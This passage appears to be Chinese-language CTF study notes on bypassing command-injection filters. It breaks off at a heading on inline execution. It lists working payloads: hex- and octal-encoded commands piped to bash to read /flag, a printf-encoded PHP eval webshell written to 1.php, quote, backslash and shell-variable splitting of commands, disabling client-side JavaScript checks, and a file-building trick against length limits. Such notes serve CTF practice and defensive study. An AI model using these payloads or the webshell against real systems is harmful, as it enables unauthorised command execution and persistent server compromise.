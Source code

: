 ```
 `echo "636174202f666c6167" | xxd -r -p|bash` ==>`cat /flag`
```
**oct：**

```
 $(printf "\154\163") ==>ls  
 $(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67") ==>cat /flag  
 {printf,"\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|\$0 ==>cat /flag  
 #可以通过这样来写webshell,内容为<?php @eval($_POST['c']);?>  
 ${printf,"\74\77\160\150\160\40\100\145\166\141\154\50\44\137\120\117\123\124\133\47\143\47\135\51\73\77\76"} >> 1.php
```
###### 3、单引号和双引号绕过  
比如：
```
`ca''t flag` 或`ca""t flag`  
```
###### 4、反斜杠绕过  
比如：
```
ca\t fl\ag
```
###### 5, js检测绕过
Ctrl+u查看代码发现判断在url里面的js代码中，所以就要用火狐禁用js或者burp抓包
![[Pasted image 20231213090350.png|700]]
火狐关闭js
![[Pasted image 20231213091911.png]]
######  6,利用Shell 特殊变量绕过
![[Pasted image 20231213102230.png]]
linux shell中$n表示传递给脚本或函数的参数。n 是一个数字，表示第几个参数。  
例如，第一个参数是1，第二个参数是2。而参数不存在时其值为空。  
$@表示  
比如：ca$@t fla$@g  
ca$1t fla$2g
##### 长度限制
长度限制可以用**文件构造**的方式来绕过。

```
linux下可以用 1>a创建文件名为a的空文件  
ls -t>test则会将目录按时间排序后写进test文件中  
sh命令可以从一个文件中读取命令来执行
```

利用这些特性，即可以成功绕过长度限制来执行命令。
##### 内联执行
